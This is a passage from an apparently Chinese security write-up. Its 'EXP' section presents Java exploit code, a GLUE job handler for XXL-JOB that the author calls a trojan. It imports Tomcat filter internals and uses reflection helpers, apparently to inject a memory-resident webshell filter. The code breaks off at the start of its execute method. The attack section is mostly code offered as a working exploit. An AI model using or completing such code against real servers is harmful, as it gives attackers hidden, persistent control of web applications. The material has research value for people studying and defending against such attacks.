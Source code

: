 1.  不支持内部类的写法，字符串中的`this$0`需要转义...

#### EXP

几经修改有了以下代码，虽然马子本身比较简单，但又是改 java-object-searcher 又是改语法，最终还是花了点时间才写完。

```plain
import javax.servlet.*;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.BufferedReader;
import java.io.IOException;
import org.apache.catalina.Context;
import org.apache.catalina.core.ApplicationFilterConfig;
import org.apache.catalina.core.StandardContext;
import org.apache.tomcat.util.descriptor.web.FilterDef;
import org.apache.tomcat.util.descriptor.web.FilterMap;

import java.io.InputStream;
import java.io.InputStreamReader;
import java.lang.reflect.Constructor;
import java.util.ArrayList;

import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;

import com.xxl.job.core.context.XxlJobHelper;
import com.xxl.job.core.handler.IJobHandler;

public class DemoGlueJobHandler extends IJobHandler {

    public Object getField(Object obj, String fieldName){
        try {
            Field field = obj.getClass().getDeclaredField(fieldName);
            field.setAccessible(true);
            obj = field.get(obj);
        } catch (IllegalAccessException e) {
            XxlJobHelper.log(e.toString());
            return null;
        } catch (NoSuchFieldException e) {
            XxlJobHelper.log(e.toString());
            return null;
        }
        return obj;
    }

    public Object getSuperClassField(Object obj, String fieldName){
        try {
            Field field = obj.getClass().getSuperclass().getDeclaredField(fieldName);
            field.setAccessible(true);
            obj = field.get(obj);
        } catch (IllegalAccessException e) {
            XxlJobHelper.log(e.toString());
            return null;
        } catch (NoSuchFieldException e) {
            XxlJobHelper.log(e.toString());
            return null;
        }
        return obj;
    }

    public void execute() throws Exception {
        Object obj = null;
        String port = "";
```